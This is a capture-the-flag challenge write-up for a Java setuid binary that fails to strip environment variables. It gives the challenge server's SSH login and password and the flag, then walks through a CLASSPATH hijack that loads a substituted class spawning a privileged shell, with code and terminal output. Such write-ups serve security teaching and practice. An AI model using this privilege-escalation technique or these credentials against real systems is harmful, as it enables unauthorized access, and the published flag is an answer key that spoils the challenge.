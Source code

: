# demo
## Description 

`ssh student@54.253.17.166`

Password: `Ayw8U1bm2D857UASzd`

Note: ssh will connect to a newly-created ephemeral docker container each time you connect - files will not persist.

Docker escape is not part of the challenge and is not known to be possible, but it would be a valid solution. Please avoid interfering with the containers of other participants if you manage to do so.

---

**Category:** 
pwn

**Difficulty:**
hard

**Author:** 
Jamie

**Flag:**

`AHOY{i_rep0rted_th15_bu9_f1ve_yarr5_ag0}`

## Exploit
You want to read `/demo_files/FlagCheck.class`, but you don't have permission, you can only run it via the setuid `demo` executable. The binary fails to strip (most) environment variables. As such, you can take over execution as the `demo` user. For exmample:

1. Make an alternative FlagChecker.java, e.g. the following, and `javac` it

```
import java.lang.ProcessBuilder;
import java.lang.ProcessBuilder.Redirect;
import java.lang.Process;
import java.lang.Exception;

class FlagCheck {
	public static void main(String[] argv) {
		    ProcessBuilder pb = new ProcessBuilder("sh", "-p");
		    pb.inheritIO();
		    try {
		    Process p = pb.start();
		    p.waitFor();
		    } catch (Exception e) {e.printStackTrace();}
	}
}
```

2. Run demo as `CLASSPATH="/path/to/folder/with/malicious/FlagChecker/dot/class" ./demo yarr101 flag`
3. Get a shell
4. Exfiltrate the original class file for decompilation, or simply use `strings` (provided on the server):

```
student@gretarr-pt ~ % CLASSPATH=/home/student /demo yarr101 flag
$ whoami
demo
$ strings FlagCheck.class | grep AHOY
(AHOY{i_rep0rted_th15_bu9_f1ve_yarr5_ag0}
$   
```

Other techniques are likely possible. For example, `JVM_JAVA_OPTIONS` can be used to provide additional args to the JVM - the `-cp` arg can be used to control the classpath as above, and I imagine there are more exotic solutions invovling e.g. attaching a debugger to the JVM using this variable. `_JAVA_OPTIONS` and `JAVA_TOOL_OPTIONS` *do not work* for some reason, and I have no idea why - seemingly the JVM disregards these if euid != ruid.

